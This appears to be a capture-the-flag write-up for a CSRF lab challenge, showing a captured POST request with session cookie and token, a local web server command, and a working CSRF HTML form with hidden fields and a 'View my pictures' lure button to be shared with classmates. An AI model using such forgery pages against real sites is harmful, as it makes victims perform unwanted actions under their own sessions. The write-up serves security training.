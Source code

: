 # Challenge
To complete this challenge, you must get your CSRF counter above 0. Once The request to increment your counter is as follows;  
  
```http
POST /user/csrfchallengethree/plusplus  
```
With the following parameters; `userid=exampleId & csrfToken=exampleToken` 

The csrfToken parameter is generated dynamically for each user upon user interaction with the request described above. exampleId is the ID of the user who's CSRF counter is being incremented. Your ID is: `47887913a0f9573d479fbd600fa02ac6ef0575bd`
Any user than you may increment your counter for this challenge, except you. Exploit the CSRF vulnerability in the request described above against other users to complete this challenge. Once you have successfully CSRF'd another Users, the solution key will appear just below this message.

---
# Resolve
Same as CSRF-2 but now we need to provide `csrfToken`.
Get the token at source page.
- The link:
```http
https://10.63.253.66/user/csrfchallengethree/plusplus?userId=47887913a0f9573d479fbd600fa02ac6ef0575bd&csrfToken=-54564521548659734870751374363061853652
```

But this time if we send the url direct to another user, it not work.
![csrf3](img/csrf3.png)
We tried to modified the payload a bit:
```burp
POST /user/csrfchallengethree/plusplus HTTP/1.1
Host: 10.63.253.66
Cookie: JSESSIONID=AC026E486EA2A193216C2FE25D61E78F; token=-106135689670907763362992216760065369864
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: https://10.63.253.66
Referer: https://10.63.253.66/challenges/z6b2f5ebbe112dd09a6c430a167415820adc5633256a7b44a7d1e262db105e3c.jsp
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

userid=47887913a0f9573d479fbd600fa02ac6ef0575bd&csrfToken=-54564521548659734870751374363061853652

```
We create a HTML file, start web server so other user can interactive.
Start web server:
```python
python -m http.server 80
```

And create the html file `csrf3.html` will be like this:

```html
<!doctype html>
<html>
<head>
	<title>Our Funky HTML Page</title>
	<meta name="description" content="Our first page">
	<meta name="keywords" content="html tutorial template">
</head>
<body>

	<form action="https://10.63.253.66/user/csrfchallengethree/plusplus" method="POST">
		<input type="hidden" name="userid" value="47887913a0f9573d479fbd600fa02ac6ef0575bd"/>
		<input type="hidden" name="csrfToken" value="-54564521548659734870751374363061853652"/>
		<input type="submit" value="View my pictures"/>
	</form>
</body>
</html>
```

Final, we will put the url of the HTML file to the link and share with classmate (or give direct to them to access).
```url
http://172.16.177.131/csrf3.html
```
After they access to your link then the challenge is solved.
